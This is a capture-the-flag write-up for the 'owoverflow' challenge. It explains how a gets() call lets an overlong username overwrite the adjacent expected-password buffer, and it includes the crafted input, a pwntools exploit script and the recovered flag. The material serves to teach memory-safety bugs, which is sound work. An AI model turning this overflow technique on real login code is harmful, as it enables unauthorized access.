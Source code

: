 # owoverflow

## Challenge

We are presented with a prompt for a username and password.
If we try guessing the username and password, the program indicates our inputs were incorrect.

```
username: Green-Avocado
password: Password123
Invalid username
```

Looking at the source code, we can see that there is a `win` function that will print the flag.

```c
void win() {
    FILE* flagfile = fopen("flag.txt", "r");

    if (flagfile == NULL) {
        puts("Error: flag.txt does not exist, contact an admin!");
        exit(1);
    }

    fgets(flag, FLAG_LEN, flagfile);
    puts(flag);
}
```

The code in `vuln` checks that we have the correct username and password.
If our login is correct, it calls the `win` function.
Otherwise, it prints an error message and exits.

```c
printf("username: ");
gets(username);

printf("password: ");
gets(password);

if (strncmp(expected_username, username, 16) != 0) {
    puts("Invalid username");
    exit(0);
}

if (strcmp(expected_password, password) != 0) {
    puts("Invalid password");
    exit(0);
}

win();
```

## Solution

If we look at the start of the `vuln` function,
we can see that the expected username is `maple_bacon_user`.

```c
void vuln() {
    char expected_username[32] = "maple_bacon_user";
    char username[32];
    char expected_password[32];
    char password[32];
```

This gives us the correct username if we try to log in:

```
username: maple_bacon_user
password: Password123
Invalid password
```

Great!
But we still don't have the correct password.

If we look at the part of `vuln` that sets the expected password:

```c
// get random string for expected password
getentropy(expected_password, sizeof(expected_password) - 1);

// ensure no null bytes in expected password
for (unsigned int i = 0; i < sizeof(expected_password) - 1; i++) {
    expected_password[i] |= 1;
}
```

we can see that the password is 31 random bytes, with no null bytes except at the end.
This means we cannot reverse engineer the password and it is not practical to guess the password.

Let's look at how the username and password are read:

```c
printf("username: ");
gets(username);

printf("password: ");
gets(password);
```

If we look at the manual for `gets`:

> ### Bugs
>
> Never use gets().
> Because it is impossible to tell without knowing the data in advance how many characters gets()
> will read, and because gets() will continue to store characters past the end of the buffer,
> it is extremely dangerous to use.
> It has been used to break computer security.
> Use fgets() instead. 

Look again at the order in which variables are declared:

```c
char expected_username[32] = "maple_bacon_user";
char username[32];
char expected_password[32];
char password[32];
```

We call `gets` on `username`, so we can overwrite `expected_password` and `password`.
The latter overwrite is useless, as we will write there anyways later.
Overwriting `expected_password` allows us to change the password from random bytes to something we know.

So we need to overflow the `username` buffer and change the expected password.
However, we still need the username to be correct.

Since the function for checking the username only compares the first 16 characters,
we can fill the remainder of the buffer with anything, as these are ignored.

```c
if (strncmp(expected_username, username, 16) != 0) {
    puts("Invalid username");
    exit(0);
}
```

So a username like `maple_bacon_userAAAAAAAABBBBBBBB` will pass the username check and fill the buffer.
Anything we write past this becomes the new `expected_password`.

To make the password `fakepass`, we can send `maple_bacon_userAAAAAAAABBBBBBBBfakepass`:

```
username: maple_bacon_userAAAAAAAABBBBBBBBfakepass
password: fakepass
maple{n0t1c3s_buff3r_0v3rf10w}
```

Once we enter our new password, the program prints the flag for us.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1338 owoverflow
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('owoverflow')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1338)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

io.sendlineafter(b'username: ', b'maple_bacon_user' + b'A' * 16 + b'fakepass');

io.sendlineafter(b'password: ', b'fakepass');

io.interactive()
```

## Flag

```
maple{n0t1c3s_buff3r_0v3rf10w}
```
